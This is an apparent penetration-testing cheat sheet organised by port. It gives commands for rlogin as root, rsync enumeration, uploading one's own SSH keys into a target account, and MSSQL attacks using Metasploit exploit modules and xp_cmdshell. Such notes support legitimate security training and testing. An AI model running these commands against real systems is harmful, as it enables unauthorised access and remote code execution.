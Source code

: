 ## 513 - Rlogin

```
apt install rsh-client
rlogin -l root 10.11.1.111
```

## 541 - FortiNet SSLVPN

[Fortinet Ports Guide](https://help.fortinet.com/fos50hlp/54/Content/FortiOS/fortigate-ports-and-protocols-54/Images/FortiGate.png)

[SSL VPN Leak](https://opensecurity.global/forums/topic/181-fortinet-ssl-vpn-vulnerability-from-may-2019-being-exploited-in-wild/?__cf_chl_jschl_tk__=42e37b31a0585f7dae3dbce18cafde7c39b81976-1578385705-0-AcuYzrPMO1OuMo59JSPYyzZjiXNbMAIl6sKiXwhQRbMUMZq1Kp3VmWqIVXWZdzTZgFCecXue1Z6xXxU-Rql_GT_ovKiar_-i0CUCKFS85bfNXnUzuOuIwomXje-kH87mNbVHzzh9ediRfVWbJjwtO-ttLEYi7quczLlHQk38UqcumrARs77RrK2mj9zOb8Uwhv6av4QZ9od4fgAIl-F4Kff26MPQjs4LRHsgk5zH6RVwFMP8NdOnCrrzkkGH6_R9Dtw89_QtiOsH1nKB0hBDbtJ2O9AkkMDqw7tl1ip_pVDfnw1lvaZtFq1sRqgYwpan-n6n9f58Xdjcj2UGFKdE32OS7Ete8X7RwXUV9FGUSOhAM5_iK0kMNJg3mskrFVQz0lONaZVvFRdf_1rp69J4oRVat1m7KIQEGpRDe4OvYUb7pfQkNKLcK5s_lVIj2SAJQQ)

## Port 554 - RTSP

- Web interface, transfer images, streaming

## Port 873 - Rsync
https://book.hacktricks.xyz/pentesting/873-pentesting-rsync

```
nc -vn 192.168.152.126 873

nmap -sV --script "rsync-list-modules" -p 873  192.168.152.126 --List Shares

rsync -av /home/kali/.ssh rsync://fox@192.168.152.126/fox/.ssh
```


## Port 1030/1032/1033/1038

Used by RPC to connect in domain network.

## MSSQL - 1433

```
nmap -p 1433 -sU --script=ms-sql-info.nse 10.11.1.111
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
sqsh -S 10.11.1.111 -U sa
	xp_cmdshell 'date'
  	go

```
